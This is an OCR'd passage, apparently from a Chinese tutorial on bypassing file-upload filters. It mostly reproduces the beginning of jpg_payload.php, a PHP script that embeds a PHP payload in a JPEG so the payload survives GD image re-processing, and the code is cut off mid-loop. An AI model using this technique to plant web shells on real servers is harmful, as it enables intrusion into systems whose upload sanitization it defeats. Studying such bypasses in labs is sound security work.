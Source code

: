     imagepng($img,'./1.png');
    ?>
    ```
    运行后得到 1.png

### 上传 jpg

采用国外大牛编写的脚本 jpg_payload.php
```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */

    $miniPayload = "<?=phpinfo();?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
```